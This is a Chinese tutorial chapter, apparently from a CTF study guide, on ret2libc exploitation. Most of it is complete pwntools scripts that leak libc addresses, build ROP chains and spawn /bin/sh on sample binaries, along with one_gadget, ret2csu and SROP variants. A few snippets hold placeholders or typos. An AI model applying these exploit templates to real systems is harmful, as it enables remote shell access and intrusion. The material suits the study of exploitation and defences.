

## 7. ret2libc技术

ret2libc（Return-to-libc）是栈溢出利用中最经典的技术之一。当栈上代码执行被 NX（No-eXecute）保护禁止时，攻击者不往栈上注入 shellcode，而是将返回地址劫持到 libc 中已有的函数（如 `system`、`execve`），借用系统库的代码完成攻击。这项技术揭示了一个根本性矛盾：**操作系统必须加载可执行代码到内存中，而这些代码对所有进程都可见**。

### 7.1 为什么需要 ret2libc

#### 7.1.1 NX 保护的限制

现代编译器和操作系统默认开启 NX（也称 DEP，Data Execution Prevention），将栈和堆标记为不可执行：

```bash
# 检查二进制文件的保护状态
checksec --file=./vuln
# RELRO           STACK CANARY      NX            PIE
# Partial RELRO   No canary found   NX enabled    No PIE
```

当 NX 启用时，传统的 `shellcode` 注入方式失败——即使成功将机器码写入栈上，CPU 也会因页面权限拒绝执行，触发 SIGSEGV：

```text
程序收到信号 SIGSEGV (段错误)
原因：试图执行位于地址 0x7fffffffe000 的代码（栈区域，标记为 rw-）
```

#### 7.1.2 ret2libc 的核心思想

关键洞察：libc.so 是一个巨大的可执行代码库，已经被内核映射到进程的虚拟地址空间中。攻击者不需要在栈上执行代码，只需要**改变控制流**，让程序跳转到 libc 中的已有函数即可。

```text
传统栈溢出：  栈上注入shellcode → 跳转执行
ret2libc：   栈上布置参数+返回地址 → 跳转到libc中的system("/bin/sh")
```


#### 7.1.3 ret2libc 适用场景

| 场景 | 是否适用 | 说明 |
|------|----------|------|
| NX 启用，栈不可执行 | 是 | 经典场景 |
| canary 已泄露/bypass | 是 | 需先解决 canary |
| PIE 未启用 | 最简单 | libc 地址相对固定或可计算 |
| PIE 启用 + ASLR | 是但更复杂 | 需要信息泄露 |
| 完全静态链接 | 不适用 | 没有 libc，改用 ROPgadget |
| 栈溢出长度极短 | 受限 | 可能需要 stack pivot |

### 7.2 前置知识

#### 7.2.1 x86 vs x86_64 调用约定差异

ret2libc 的 payload 构造在 32 位和 64 位下完全不同，这是初学者最容易犯错的地方：

| 特性 | x86 (32位) | x86_64 (64位) |
|------|------------|---------------|
| 参数传递 | 全部压栈 | 前6个用寄存器 (rdi, rsi, rdx, rcx, r8, r9) |
| 返回地址位置 | 栈顶 (ESP 指向处) | 栈顶 ([RSP] 处) |
| 指针大小 | 4字节 | 8字节 |
| `system` 调用 | `system("/bin/sh")` 参数在栈上 | 第一个参数必须在 RDI 中 |
| 典型 payload | `"AAAA" + system_addr + ret_addr + "/bin/sh_addr"` | `padding + pop_rdi + "/bin/sh_addr" + system_addr` |

#### 7.2.2 libc 中的关键函数

ret2libc 最常使用的 libc 函数：

```python
from pwn import *
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# 1. system() —— 最常用，直接执行命令
print(f"system: {hex(libc.symbols['system'])}")

# 2. execve() —— 更强大，可指定参数和环境变量
print(f"execve: {hex(libc.symbols['execve'])}")

# 3. __libc_start_main —— 程序入口辅助函数，可用于泄露基址
print(f"__libc_start_main: {hex(libc.symbols['__libc_start_main'])}")

# 4. "/bin/sh" 字符串在 libc 中的位置
binsh = next(libc.search(b'/bin/sh'))
print(f"/bin/sh: {hex(binsh)}")
```

#### 7.2.3 ASLR 与 libc 基址

ASLR（Address Space Layout Randomization）是 ret2libc 面临的最大挑战。每次程序运行时，libc 的加载基址都会变化：

```bash
# 查看ASLR状态（0=关闭，1=部分随机化，2=完全随机化）
cat /proc/sys/kernel/randomize_va_space

# 对比两次运行的libc地址
ldd ./vuln | grep libc
# 第一次: libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dc5000)
# 第二次: libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7a00000)
```

**关键约束**：ASLR 只随机化基址，不改变函数之间的偏移量。因此只要泄露一个 libc 地址，就能推算出所有函数地址：

```text
system_real = libc_leaked + (system_offset - leaked_func_offset)
```

### 7.3 基础 ret2libc：32 位实现

32 位下的 ret2libc 最直观，因为所有参数都在栈上：

#### 7.3.1 原始思路

```text
栈布局（溢出后）：
┌─────────────────────┐
│  填充数据 (padding)  │ ← 覆盖到返回地址之前
├─────────────────────┤
│  system@plt 的地址   │ ← 覆盖返回地址，函数返回时跳转到这里
├─────────────────────┤
│  system 返回地址      │ ← system执行完后跳转到哪里（可以是exit或任意地址）
├─────────────────────┤
│  "/bin/sh" 字符串地址 │ ← system的第一个参数
└─────────────────────┘
```

#### 7.3.2 完整 exploit（32 位，无 ASLR）

```python
from pwn import *

context.arch = 'i386'
context.os = 'linux'

elf = ELF('./vuln32')
libc = ELF('/lib32/libc.so.6')  # 32位libc

p = process('./vuln32')

# 在无ASLR或ASLR已关闭的情况下，libc地址固定
# 通过 ldd 或 /proc/<pid>/maps 确认
system_addr = libc.symbols['system']
bin_sh_addr = next(libc.search(b'/bin/sh'))
exit_addr = libc.symbols['exit']

# 计算偏移：通过cyclic定位
# cyclic(200) -> 发送 -> 观察crash的EIP -> cyclic_find('值')
offset = 76  # 示例偏移，实际需通过调试确定

payload = b'A' * offset
payload += p32(system_addr)    # 覆盖返回地址 -> system()
payload += p32(exit_addr)      # system的返回地址 -> exit()
payload += p32(bin_sh_addr)    # system的参数 -> "/bin/sh"

p.sendline(payload)
p.interactive()
```

#### 7.3.3 利用 PLT 绕过 libc 地址计算（32 位）

如果程序自身调用过 `system`，可以直接使用 PLT 表项，无需知道 libc 基址：

```python
# 使用GDB或objdump查找system@plt
# objdump -d ./vuln32 | grep system
# 或直接用pwntools
system_plt = elf.plot['system']   # 如果程序导入了system

# 如果程序没有导入system，但导入了printf/puts
# 可以先泄露再调用（详见7.5节）
```

### 7.4 基础 ret2libc：64 位实现

64 位是当今主流，也更复杂——参数通过寄存器传递，需要额外的 gadget 来设置 RDI。

#### 7.4.1 64 位 payload 结构

```text
栈布局（溢出后）：
┌──────────────────────┐
│  填充数据 (padding)   │
├──────────────────────┤
│  pop rdi; ret 地址    │ ← ROP gadget：从栈上弹出值到RDI
├──────────────────────┤
│  "/bin/sh" 字符串地址 │ ← 被pop到RDI，成为system的第一个参数
├──────────────────────┤
│  system@libc 地址     │ ← 调用system("/bin/sh")
└──────────────────────┘
```

#### 7.4.2 完整 exploit（64 位，ASLR 已知 libc 基址）

```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

elf = ELF('./vuln64')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = process('./vuln64')

# 步骤1：找到 pop rdi; ret gadget
# 方法A：用ROPgadget工具
# ROPgadget --binary ./vuln64 | grep "pop rdi"
# 方法B：用pwntools
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
print(f"pop rdi; ret @ {hex(pop_rdi)}")

# 步骤2：确定libc基址（假设已通过泄露获得）
libc_base = 0x7ffff7a00000  # 实际值需要泄露
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

# 步骤3：通过cyclic确定偏移
# cyclic(200) -> 发送 -> 观察RIP -> cyclic_find()
offset = 72  # 示例值，64位通常比32位多

# 步骤4：构造payload
payload = b'A' * offset
payload += p64(pop_rdi)       # pop rdi; ret
payload += p64(bin_sh_addr)   # RDI = "/bin/sh"
payload += p64(system_addr)   # call system("/bin/sh")

p.sendline(payload)
p.interactive()
```

#### 7.4.3 确定缓冲区偏移的三种方法

**方法一：cyclic 模式（推荐）**

```python
from pwn import *

# 生成唯一4字节模式
pattern = cyclic(200)
# 发送给目标程序，观察crash时的RIP值
# 假设crash时RIP = 0x61616174 ('taaa')
offset = cyclic_find(0x61616174)
print(f"偏移量: {offset}")  # 输出: 56
```

**方法二：GDB 手动调试**

```bash
gdb ./vuln64
(gdb) r <<< $(python3 -c "print('A'*100)")
# 观察 Segfault 时 RIP = 0x4141414141414141
# 逐步增大/减小A的数量直到精确控制RIP
```

**方法三：二分法自动脚本**

```python
import subprocess

def find_offset(max_len=200):
    for i in range(1, max_len):
        payload = b'A' * i + b'BBBBBBBB'
        result = subprocess.run(
            ['./vuln64'], input=payload,
            capture_output=True, timeout=1
        )
        if result.returncode != 0:
            # 检查是否SIGSEGV且RIP包含BBBB
            return i
    return -1
```

### 7.5 libc 地址泄露技术

当 ASLR 开启时，必须先泄露一个已知函数的 libc 地址，才能计算 libc 基址。这是 ret2libc 攻击链中最关键的一步。

#### 7.5.1 利用 GOT/PLT 泄露

原理：程序调用过 `puts`（或 `printf`），GOT 表中存储了 `puts` 在 libc 中的真实地址。通过溢出控制程序以 GOT 表项为参数调用 `puts`，就能泄露真实地址。

```python
from pwn import *

elf = ELF('./vuln64')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process('./vuln64')

rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret_gadget = rop.find_gadget(['ret'])[0]  # 用于栈对齐

# === 第一阶段：泄露 puts 的真实地址 ===
payload_leak = b'A' * 72
payload_leak += p64(pop_rdi)
payload_leak += p64(elf.got['puts'])    # 参数：puts在GOT中的地址
payload_leak += p64(elf.plt['puts'])    # 调用 puts(puts@got)
payload_leak += p64(elf.sym['main'])    # 返回到main，进行第二阶段

p.sendline(payload_leak)
p.recvuntil(b'\n')

# 接收泄露的地址（64位地址可能包含换行符，用recvline处理）
leaked_puts = u64(p.recvline().strip().ljust(8, b'\x00'))
print(f"puts 真实地址: {hex(leaked_puts)}")

# === 第二阶段：计算libc基址并执行system("/bin/sh") ===
libc_base = leaked_puts - libc.symbols['puts']
print(f"libc 基址: {hex(libc_base)}")

system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

# 栈对齐：某些libc函数（如system）要求RSP 16字节对齐
# 加一个ret gadget即可
payload_exploit = b'A' * 72
payload_exploit += p64(ret_gadget)      # 栈对齐
payload_exploit += p64(pop_rdi)
payload_exploit += p64(bin_sh_addr)
payload_exploit += p64(system_addr)

p.sendline(payload_exploit)
p.interactive()
```

#### 7.5.2 利用 write/puts 泄露任意 GOT 表项

当程序导入了 `write` 但没有 `puts` 时：

```python
# write(1, got_entry, 8) —— 向stdout写入8字节
# write(fd=1, buf=got_entry, count=8)

# 寄存器映射：rdi=fd, rsi=buf, rdx=count
pop_rsi_r15 = rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
# 或者使用 ret2csu（见7.8节）

payload = b'A' * 72
payload += p64(pop_rdi)
payload += p64(1)                    # fd = stdout
payload += p64(pop_rsi_r15)
payload += p64(elf.got['read'])      # buf = read@got
payload += p64(0)                    # r15 无所谓
payload += p64(elf.plt['write'])     # write(1, read@got, ?)
# 注意：rdx需要额外设置，可能需要更多gadget
payload += p64(elf.sym['main'])
```

#### 7.5.3 利用 `__libc_start_main` 泄露

某些场景下泄露 `__libc_start_main` 更可靠（特别是当程序调用 puts 时地址中可能包含 `\n` 导致截断）：

```python
# 泄露 __libc_start_main 的返回地址
# 在 main 的栈帧中，__libc_start_main 的返回地址通常在固定偏移处
payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(elf.got['__libc_start_main'])
payload += p64(elf.plt['puts'])
payload += p64(elf.sym['main'])
```

#### 7.5.4 处理地址中包含 `\x00` 或 `\n` 的情况

泄露的地址可能包含截断字符，这是 CTF 中的常见陷阱：

| 截断字符 | 原因 | 解决方案 |
|----------|------|----------|
| `\x00` | 64位地址高位为0 | 使用 `recvuntil` 而非 `recvline` |
| `\n` (0x0a) | puts 遇到换行停止 | 改用 write 泄露，或泄露不同函数 |
| `\x0d` (回车) | scanf 等输入函数截断 | 改用 read/getchar 输入 |

```python
# 安全的地址接收方式
p.recvuntil(b': ')  # 先消耗提示信息
leaked_bytes = p.recv(6)  # 精确接收6字节（64位地址有效位通常<6字节）
leaked_addr = u64(leaked_bytes.ljust(8, b'\x00'))
```

### 7.6 one_gadget：单 gadget 获取 shell

`one_gadget` 是一种更简洁的 ret2libc 变体——libc 中存在一些特殊的地址，跳转到该地址并满足特定约束条件就能直接获取 shell，无需手动构造参数。

#### 7.6.1 安装和使用 one_gadget

```bash
# 安装（需要Ruby环境）
gem install one_gadget

# 查找libc中的one_gadget
one_gadget /lib/x86_64-linux-gnu/libc.so.6
```

输出示例：

```text
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

#### 7.6.2 one_gadget exploit

```python
from pwn import *

elf = ELF('./vuln64')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process('./vuln64')

# 先泄露libc基址（同7.5节方法）
# ... 省略泄露步骤 ...
libc_base = leaked - libc.symbols['puts']

# 使用one_gadget（从one_gadget工具输出中获取偏移）
one_gadget_offset = 0x4f2a5  # 需要满足 rcx == NULL
one_gadget_addr = libc_base + one_gadget_offset

# 直接跳转到one_gadget
payload = b'A' * 72
payload += p64(one_gadget_addr)  # 不需要设置任何参数！

p.sendline(payload)
p.interactive()
```

#### 7.6.3 one_gadget 约束条件的满足策略

one_gadget 不是万能的——它有严格的约束条件。如果约束不满足，程序会崩溃。以下是常见的满足策略：

**策略一：多次尝试**
```python
# one_gadget通常给出多个候选地址
# 逐个尝试，总有一个能满足约束
gadgets = [0x4f2a5, 0x4f302, 0x10a2fc]
for g in gadgets:
    try:
        p = process('./vuln64')
        payload = b'A' * 72 + p64(libc_base + g)
        p.sendline(payload)
        p.sendline(b'echo PWNED')
        if b'PWNED' in p.recv(timeout=2):
            print(f"成功！one_gadget偏移: {hex(g)}")
            p.interactive()
            break
        p.close()
    except:
        continue
```

**策略二：通过 ROP 清理寄存器**
```python
# 如果约束要求 rcx == NULL
# 找一个 xor ecx, ecx 或类似gadget
xor_rcx = libc_base + 0xsome_offset  # 通过ROPgadget查找
payload = b'A' * 72
payload += p64(xor_rcx)           # 清零 rcx
payload += p64(one_gadget_addr)   # 跳转到one_gadget
```

**策略三：栈对齐**
```python
# 约束 "rsp & 0xf == 0" 要求栈16字节对齐
# 加一个 ret gadget 来调整
ret = libc_base + 0xsome_ret  # 任意 ret gadget
payload = b'A' * 72
payload += p64(ret)             # 栈对齐
payload += p64(one_gadget_addr)
```

### 7.7 ret2libc 高级变体

#### 7.7.1 ret2csu（通用 gadget）

当二进制文件中缺少 `pop rdi; ret` 等 gadget 时，可以利用 `__libc_csu_init` 中的通用 gadget。几乎所有动态链接的 ELF 二进制都包含这个函数。

```python
# __libc_csu_init 中的两个关键 gadget：
#
# Gadget 1（pop gadget）：
#   pop rbx
#   pop rbp
#   pop r12
#   pop r13
#   pop r14
#   pop r15
#   ret
#
# Gadget 2（call gadget）：
#   mov rdx, r14    ; rdx = r14
#   mov rsi, r13    ; rsi = r13
#   mov edi, r12d   ; edi = r12d（注意：32位赋值）
#   call [r15 + rbx*8]
#   add rbx, 1
#   cmp rbp, rbx
#   jne <loop>
#   ... (继续pop 6个寄存器然后ret)

# 使用ret2csu控制 rdi, rsi, rdx
csu_pop = 0x40089a    # pop rbx ~ pop r15; ret
csu_call = 0x400880   # mov rdx, r14; mov rsi, r13; mov edi, r12d; call [r15+rbx*8]

def ret2csu(func_ptr, edi, rsi, rdx):
    """通用ret2csu构造器"""
    payload  = p64(csu_pop)
    payload += p64(0)           # rbx = 0
    payload += p64(1)           # rbp = 1（使cmp rbp,rbx成立，跳过循环）
    payload += p64(edi)         # r12 -> edi
    payload += p64(rsi)         # r13 -> rsi
    payload += p64(rdx)         # r14 -> rdx
    payload += p64(func_ptr)    # r15 -> call [r15]
    payload += p64(csu_call)
    # padding for pop rbx~r15 after csu_call returns
    payload += b'\x00' * 56     # 7 * 8 bytes
    return payload

# 使用示例：write(1, got['read'], 8)
payload = b'A' * 72
payload += ret2csu(elf.got['read'], 1, elf.got['read'], 8)
payload += p64(elf.sym['main'])
```

#### 7.7.2 部分覆写（Partial Overwrite）

当 ASLR 只随机化高位时，可以只覆写低 12-16 位来跳转到 libc 中目标函数附近的地址：

```python
# libc中函数地址的低12位是固定的（因为页大小4096=0x1000）
# 如果知道libc版本，只需猜测高位

# 例：system 偏移为 0x55410
# 只覆写低2字节（16位），命中概率 1/16
# 反复尝试即可

payload = b'A' * offset
payload += p16(0x5410)  # 只覆写低2字节
# 多次运行，有1/16概率命中正确的高位

# 更激进：覆写3字节（1/256概率），速度更快但成功率低
# payload += p24(0xf5410)
```

#### 7.7.3 盲 ret2libc（Blind ret2libc）

在无法直接泄露 libc 地址的场景下，通过侧信道或暴力破解：

```python
# 方法1：通过返回值判断地址是否正确
# 如果跳转到有效地址，程序不会crash
# 如果跳转到无效地址，程序crash

# 方法2：利用strcmp/strncmp等函数的行为差异
# 构造一个比较操作：如果地址A处的字节 == 预期值，则走正常路径（不crash）
# 否则走异常路径（crash）
# 逐字节爆破libc内容

# 方法3：利用LibcSearcher缩小范围
from LibcSearcher import *
libc = LibcSearcher('puts', leaked_puts_addr)
# 返回匹配的libc版本列表
```

#### 7.7.4 SROP（Sigreturn-Oriented Programming）

当可用 gadget 非常少时，可以利用 `sigreturn` 系统调用一次性设置所有寄存器：

```python
from pwn import *

# pwntools 内置 SROP 支持
frame = SigreturnFrame()
frame.rax = 59            # sys_execve
frame.rdi = bin_sh_addr   # "/bin/sh"
frame.rsi = 0             # argv = NULL
frame.rdx = 0             # envp = NULL
frame.rip = syscall_ret   # syscall; ret gadget 的地址

payload = b'A' * offset
# 触发 sigreturn：设置 rax = 15 (SYS_rt_sigreturn)
# 可以通过 read(0, buf, 15) 让 rax = 15
payload += p64(sigreturn_gadget)
payload += p64(syscall_ret)
payload += bytes(frame)
```

### 7.8 多次交互场景

很多 CTF 题目不会在第一次输入后就拿到 shell，而是需要多轮交互。典型的两阶段攻击：

#### 7.8.1 两阶段攻击模板

```python
from pwn import *

elf = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process('./vuln')

rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

# ==================== 第一阶段：泄露libc地址 ====================
log.info("阶段1：泄露puts真实地址")

payload1 = b'A' * 72
payload1 += p64(pop_rdi)
payload1 += p64(elf.got['puts'])   # puts@GOT 中存放的真实地址
payload1 += p64(elf.plt['puts'])   # 调用 puts 输出该地址
payload1 += p64(elf.sym['main'])   # 返回 main，准备第二阶段

p.recvuntil(b'> ')                 # 消耗程序提示
p.sendline(payload1)

# 解析泄露的地址
leaked = u64(p.recvline().strip().ljust(8, b'\x00'))
log.success(f"泄露的 puts 地址: {hex(leaked)}")

# ==================== 计算 libc 基址 ====================
libc.address = leaked - libc.symbols['puts']
log.success(f"libc 基址: {hex(libc.address)}")

# 验证：检查基址是否页对齐
assert libc.address & 0xfff == 0, "libc基址未页对齐，泄露可能有误"

# ==================== 第二阶段：执行 system("/bin/sh") ====================
log.info("阶段2：执行 system('/bin/sh')")

payload2 = b'A' * 72
payload2 += p64(ret)               # 栈对齐（16字节对齐）
payload2 += p64(pop_rdi)
payload2 += p64(next(libc.search(b'/bin/sh')))
payload2 += p64(libc.symbols['system'])

p.recvuntil(b'> ')
p.sendline(payload2)

log.success("获取shell！")
p.interactive()
```

#### 7.8.2 栈对齐问题

64 位系统中，`movaps` 指令（libc 函数内部常用）要求 SSE 寄存器操作数 16 字节对齐。如果 RSP 不对齐，`system()` 内部会崩溃：

```python
# 症状：发送payload后程序立即crash，gdb看到SIGSEGV在__libc_system内部
# 解决：在跳转到system之前多加一个ret gadget

# 错误写法
payload += p64(pop_rdi)
payload += p64(bin_sh_addr)
payload += p64(system_addr)         # 可能crash

# 正确写法
payload += p64(ret)                 # 多一个ret，调整栈对齐
payload += p64(pop_rdi)
payload += p64(bin_sh_addr)
payload += p64(system_addr)         # 正常工作
```

### 7.9 防御措施与绕过

#### 7.9.1 现代防御机制

| 防御机制 | 原理 | 对ret2libc的影响 |
|----------|------|------------------|
| NX/DEP | 栈不可执行 | ret2libc 就是为了绕过它而生 |
| ASLR | 地址随机化 | 需要先泄露地址，增加难度 |
| Stack Canary | 栈保护cookie | 需要先泄露/绕过 canary |
| PIE | 代码段随机化 | 需要先泄露代码基址 |
| Full RELRO | GOT 只读 | 无法覆写 GOT，但不影响跳转到 libc |
| FORTIFY_SOURCE | 编译时检查 | 可能阻止部分溢出 |

#### 7.9.2 绕过 Full RELRO

Full RELRO 将 GOT 表标记为只读，无法通过覆写 GOT 表项来劫持控制流。但 ret2libc 本身不依赖覆写 GOT，它只利用 GOT 表项来**读取** libc 地址：

```python
# Full RELRO 下 GOT 表只读
# 但我们只是读取 GOT 表项来泄露地址（读取不受影响）
# 然后直接跳转到 libc 函数（不修改GOT）
# 所以 ret2libc 在 Full RELRO 下仍然有效
```

#### 7.9.3 绕过 ASLR 的总结

```text
ASLR绕过策略：
├── 信息泄露（最常用）
│   ├── GOT/PLT 泄露：puts(puts@got)
│   ├── 栈信息泄露：泄露__libc_start_main返回地址
│   └── 格式化字符串泄露：%p 读取栈上libc地址
├── 部分覆写
│   └── 只覆写低2-3字节，暴力1/16~1/4096
├── ret2plt
│   └── 不需要libc，直接调用PLT
└── 泄露 /proc/self/maps
    └── 如果有任意读漏洞，直接读取内存映射
```

### 7.10 实战案例：完整的 CTF 解题流程

以下是一个完整的 ret2libc 解题案例，包含从分析到 exploit 的全过程：

#### 7.10.1 题目分析

```bash
# 1. 文件信息
file ./vuln
# ./vuln: ELF 64-bit LSB executable, x86-64, dynamically linked

# 2. 保护机制
checksec --file=./vuln
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

# 3. 反汇编关键函数
objdump -d ./vuln | grep -A 30 '<vulnerable_function>'
# vulnerable_function:
#   push rbp
#   mov rbp, rsp
#   sub rsp, 0x40
#   lea rax, [rbp-0x40]
#   mov rdi, rax        ; buf 在栈上
#   call <read@plt>     ; read(0, buf, 0x100) —— 溢出！0x40的buf读0x100

# 4. 确认漏洞
# 缓冲区大小: 0x40 = 64字节
# 读取大小: 0x100 = 256字节
# 溢出空间: 256 - 64 = 192字节，足够构造ROP链
```

#### 7.10.2 完整 exploit

```python
#!/usr/bin/env python3
"""
ret2libc exploit template
题目：64位，NX启用，无canary，无PIE，Partial RELRO
目标：获取shell
"""
from pwn import *

# ==================== 配置 ====================
context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'info'

TARGET = './vuln'
LIBC = '/lib/x86_64-linux-gnu/libc.so.6'

elf = ELF(TARGET)
libc = ELF(LIBC)
rop = ROP(elf)

# ==================== 常量 ====================
OFFSET = 72                    # padding = 0x40 (buf) + 8 (saved rbp)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

log.info(f"pop rdi; ret @ {hex(pop_rdi)}")
log.info(f"ret @ {hex(ret)}")

# ==================== 连接 ====================
if args.REMOTE:
    p = remote('challenge.example.com', 1337)
else:
    p = process(TARGET)

# ==================== 阶段1：泄露puts地址 ====================
log.stage("阶段1：泄露 libc 地址")

payload1 = flat(
    b'A' * OFFSET,
    pop_rdi,
    elf.got['puts'],       # puts@GOT
    elf.plt['puts'],       # 调用 puts 输出地址
    elf.sym['main'],       # 返回 main
)

p.recvuntil(b'input: ')
p.sendline(payload1)

# 接收泄露的地址
p.recvline()  # 消耗puts输出的内容前的换行
leaked_puts = u64(p.recvline().strip().ljust(8, b'\x00'))
log.success(f"puts @ {hex(leaked_puts)}")

# ==================== 计算基址 ====================
libc.address = leaked_puts - libc.symbols['puts']
assert libc.address & 0xfff == 0, "基址未对齐，泄露有误！"
log.success(f"libc base @ {hex(libc.address)}")

# ==================== 阶段2：获取shell ====================
log.stage("阶段2：执行 system('/bin/sh')")

bin_sh = next(libc.search(b'/bin/sh'))
system = libc.symbols['system']

log.info(f"system @ {hex(system)}")
log.info(f"/bin/sh @ {hex(bin_sh)}")

payload2 = flat(
    b'A' * OFFSET,
    ret,                   # 栈对齐
    pop_rdi,
    bin_sh,
    system,
)

p.recvuntil(b'input: ')
p.sendline(payload2)

# ==================== 获取shell ====================
log.success("Shell 获取成功！")
p.interactive()
```

#### 7.10.3 调试技巧

```bash
# GDB 附加到进程
gdb -p $(pidof vuln)

# 在GDB中设置断点
b *main
b *system
b *vulnerable_function

# 查看libc映射
info proc mappings

# pwntools 自带GDB调试
python3 -c "
from pwn import *
p = process('./vuln', aslr=False)
gdb.attach(p, 'b *vulnerable_function')
p.interactive()
"
```

### 7.11 常见错误与排查

#### 7.11.1 错误清单

| 错误现象 | 可能原因 | 排查方法 |
|----------|----------|----------|
| Segfault in `__libc_system` | 栈未 16 字节对齐 | 加一个 `ret` gadget |
| Segfault at random address | libc 基址算错 | 检查泄露值是否完整（有无截断） |
| Segfault at `0x0` | ROP 链中地址写反 | 检查 p64() 的参数顺序 |
| 程序无响应卡住 | 参数不正确，read 等待输入 | 检查 stdin 是否正确连接 |
| `puts` 泄露 0 或异常值 | GOT 表未解析（延迟绑定） | 先调用一次 puts 让 PLT 解析 GOT |
| 地址中包含 `\n` | puts 遇换行截断 | 改用 `write` 泄露或泄露其他函数 |

#### 7.11.2 延迟绑定导致 GOT 为空

```python
# 问题：程序从未调用过 puts，GOT表项指向PLT的解析器而不是真实地址
# 解决：先触发一次 puts 调用，让 PLT 解析 GOT

# 先调用 puts("任意字符串") 触发解析
payload_trigger = b'A' * OFFSET
payload_trigger += p64(pop_rdi)
payload_trigger += p64(some_string_addr)  # 任意有效字符串
payload_trigger += p64(elf.plt['puts'])    # 触发 GOT 解析
payload_trigger += p64(elf.sym['main'])   # 返回main

# 之后再泄露 GOT 表项
payload_leak = b'A' * OFFSET
payload_leak += p64(pop_rdi)
payload_leak += p64(elf.got['puts'])      # 现在 GOT 中是真实地址了
payload_leak += p64(elf.plt['puts'])
payload_leak += p64(elf.sym['main'])
```

### 7.12 进阶主题

#### 7.12.1 静态链接二进制的 ret2libc

静态链接的程序没有 libc 依赖，所有函数都被链接进二进制。此时不能使用 ret2libc，但可以使用 **ret2text**（跳转到二进制中已有的 `system` 函数）：

```python
# 静态链接程序中直接包含system等函数
system_addr = elf.symbols['system']      # 直接使用ELF中的地址
bin_sh_addr = next(elf.search(b'/bin/sh'))
# 不需要泄露任何地址！
```

#### 7.12.2 musl libc 的差异

Alpine Linux 等使用 musl libc 而非 glibc，函数地址和约束条件不同：

```python
# musl libc中one_gadget约束可能不同
# 需要重新用one_gadget工具分析musl版本的libc
# musl的system()实现略有不同，调试时注意
```

#### 7.12.3 ret2libc 与其他技术的组合



### 7.13 工具速查

| 工具 | 用途 | 安装/使用 |
|------|------|-----------|
| pwntools | Python exploit 框架 | `pip install pwntools` |
| ROPgadget | 查找 ROP gadget | `pip install ROPgadget` |
| ropper | 另一个 gadget 搜索工具 | `pip install ropper` |
| one_gadget | 查找 libc 中的 one gadget | `gem install one_gadget` |
| LibcSearcher | 根据泄露值查找 libc 版本 | `pip install LibcSearcher` |
| pwninit | 自动下载对应 libc 版本 | `cargo install pwninit` |
| checksec | 查看二进制保护机制 | `checksec --file=<binary>` |
| GDB + pwndbg | 调试 exploit | `pwndbg` 插件 |

```bash
# 快速查找pop rdi; ret gadget
ROPgadget --binary ./vuln | grep "pop rdi"
# 0x00000000004007f3 : pop rdi ; ret

# ropper 更精确
ropper --file ./vuln --search "pop rdi"

# LibcSearcher 自动匹配libc版本
python3 -c "
from LibcSearcher import *
libc = LibcSearcher('puts', 0x7f1234567890)
for item in libc:
    print(item)
"
```

